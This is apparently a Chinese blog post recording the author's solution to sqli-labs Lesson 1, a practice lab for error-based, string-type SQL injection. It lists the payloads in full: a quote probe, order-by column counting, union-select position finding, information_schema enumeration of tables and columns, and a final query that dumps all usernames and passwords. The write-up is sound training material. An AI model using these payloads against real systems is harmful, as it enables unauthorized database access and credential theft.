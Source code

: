 ```yaml
---
layout: post
title: sqli-labs Lesson-1 字符型注入
subtitle: 
date: 2020-01-03
author: kevin
header-img: img/green-bg.jpg
catalog: true
tags:
    - sql
    - sql injection
    - security
---
```




## preface



这篇文章是我正式学习 sql 注入的第一篇文章，下载了 sqli-labs 靶机作为渗透环境，里面的题目很多，有几十题的 sql 注入，跟着网上的 wp 一起做了一题，然后还是学到挺多东西的，这里拿第一关来记录一下



## sql 注入概念



通俗点说，就是要获取数据库里面所有的信息，包括这张表的字段个数，字段名分别是什么，在哪个数据库中，以及所有的记录，一般来说，黑客就会想知道有关管理员表的一些信息，作为学习，我就先将 sql 注入的一般的步骤写下来



1. 判断是否可注入以及注入点的类型（字符型，数字型，布尔型）
2. 猜解表中的字段数（一般利用 order by column_id）
3. 确定显示的字段顺序（一般用 union 联合查询）
4. 获取当前的数据库（通过 MySQL 内建的 database() 函数）
5. 获取表中的字段名
6. 下载数据



## 开始做题



### 判断注入点



下面就按照上面这几个步骤来对第一关进行 sql 注入吧，害，不过题目都说了是基于报错的字符型单引号注入了，有了先入为主的思想，就直接输入一个 `'` 进去了，然后看到报错信息，真的是用单引号包着的，所以猜测 sql 查询语句为

```sql
select xx from table where id='$id' limit 0, 1;
```

![error](https://i.loli.net/2020/01/04/5pvtiwQ4lFEebL8.png)



然后进一步查看是否存在 sql 注入，由于已知是字符型的注入了，所以我们分别输入 `'or'1'='1` 和 `'or'1'='2` 来看看返回的是不是相同的界面，如果不同的话就说明有 sql 注入漏洞

![1578127454967.png](https://i.loli.net/2020/01/04/nrVNCgmHS9qpAhv.png)

![1578127478997.png](https://i.loli.net/2020/01/04/tlqJf8zY6VcjPuC.png)



### 爆字段个数



可以看到返回的不同的数据，所以存在 sql 注入，下面我们就开始注入过程。首先确定一下这张表有几个字段，用 `order by column_id` 一个一个试，然后把后面的 sql 语句给注释掉来截断

![1578127659994.png](https://i.loli.net/2020/01/04/DT54rxqRdLPINoU.png)

试到 4 的时候报错了，所以确定了这张表只有 3 个字段

![1578127762664.png](https://i.loli.net/2020/01/04/EMKJSneVmkgs9RW.png)



### 爆显示顺序



紧接着，第二步，确定显示出来的是哪几个字段，这里用 union 查询，并且将前面一个查询的结果给屏蔽，因为这个 sql 语句只能返回一条记录，如果前面输出了的话那么后面查询得到的数据就不会被显示出来，所以这里我们可以用下面这句来构造 payload

```sql
1' and 1=2 union select 1, 2 --+ 
```

但是报错了，说 union 查询的前后两条记录的字段数不相等，那么猜想真实的 sql 语句一定是 `select *` ，返回的是 3 个字段的记录

![1578129308538.png](https://i.loli.net/2020/01/04/G9Ry6KH7uQaojew.png)



那我们就再构造一个 payload

```sql
1' and 1=2 union select 1, 2, 3 --+ 
```

![select-1-2-3](https://i.loli.net/2020/01/04/XFDzSr3ZfPdlC2J.png)



### 爆数据库



这次显示的是 2， 3，所以 login_name 这个字段的顺序是 2，password 是 3，那么 id 肯定是 1 了，已经知道这些了，接下去就看下这个数据库叫什么名字，要先得到数据库的消息就可以用 mysql 内建的数据库查出表的名字，用下面这条 payload 获取数据库的名字

```sql
1' and 1=2 union select 1, database(), 3 --+ 
```



![1578129576658.png](https://i.loli.net/2020/01/04/qgJoxCHXfUnZjmM.png)



### 爆表名



ok，这张表所在的数据库的名字是 security，知道数据库的名字之后我们还得知道数据库是什么系统的，以及版本号，顺带也可以获取系统是 win 还是 linux ，虽然这里肯定是 MySQL 数据库，但是实战中不一定总是 MySQL ，所以要先查询一下，下面这些函数在我之前写的 [sql 基本语句](https://szukevin.site/2019/11/13/%E4%B8%80%E4%BA%9B%E5%B8%B8%E7%94%A8%E7%9A%84SQL%E8%AF%AD%E5%8F%A5/)中都找得到



可以像这样一个一个查询，查完之后换一个函数继续查，但是效率不高

```
1' and 1=2 union select 1, @@datadir, version() --+ 
1' and 1=2 union select 1, @@version_compile_os, user() --+ 
```



用 `concat_ws(separator,str1,str2,...)` 函数更加方便，这个函数的功能是将多个字符串拼接在一起，因此我们可以用这个函数一次性查询好多东西

```sql
1' and 1=2 union select 1, 2, concat_ws(',', @@datadir, version(), @@version_compile_os, user()) --+ 
```



![1578139631092.png](https://i.loli.net/2020/01/04/7w3hYL9UdajGiHS.png)



得知数据库是在 debian 系统上的 MariaDB（其实跟 MySQL 是一样的东西），接下来我们用 MySQL 中的 information_schema 数据库爆出表名

```sql
1' and 1=2 union select 1, 2, table_name from information_schema.tables where table_schema='security' --+ 
```



![1578130520986.png](https://i.loli.net/2020/01/04/jhYCoxwXWJQTI9r.png)



可以看到，只显示出了一个表名，这是因为它只取了第一行的记录，其实是有多行的，我们要用 `group_concat` 这个函数将多行记录放在一行显示

```sql
1' and 1=2 union select 1, 2, group_concat(table_name) from information_schema.tables where table_schema='security' --+ 
```

![1578130656386.png](https://i.loli.net/2020/01/04/6Bl2AuzxXMOmSo1.png)



### 爆字段名



然后看到了这个数据库里面有 4 张表，猜想这张表是 users ，然后爆出字段名，同样也是用到 information_schema 这个数据库，所以说这个数据库很重要

```sql
1' and 1=2 union select 1, 2, group_concat(column_name) from information_schema.columns where table_name='users' --+ 
```



![1578139721794.png](https://i.loli.net/2020/01/04/4whBe617vqQKRnO.png)



但是这里出现了好多字段，之前不是确认过了这张表只有三个字段的吗，原因就是我的环境中还有其他的数据库中的表也叫做 users ，为了避免这种情况，就要再筛选一下了



```sql
1' and 1=2 union select 1, 2, group_concat(column_name) from information_schema.columns where table_name='users' and table_schema='security' --+ 
```

![1578138434738.png](https://i.loli.net/2020/01/04/5ICxjqW9cNifXg2.png)



### 爆所有数据



这下字段名就出来了，一个是 id ，一个是 username ，一个是 password ，接下去就可以根据字段名将数据库所有的用户信息都给爆出来了



```sql
1' and 1=2 union select 1, group_concat(username), group_concat(password) from users --+ 
```



![all-data](https://i.loli.net/2020/01/04/xfj81R69tDvqKVQ.png)



到这里就完成了一次注入，还挺有趣的，总之注入的时候就要想想后台的 sql 可能是怎么写的，然后去猜测信息，接着用一些手段来获取自己想得到的信息



## reference



https://blog.csdn.net/qq_43531669/article/details/90812561

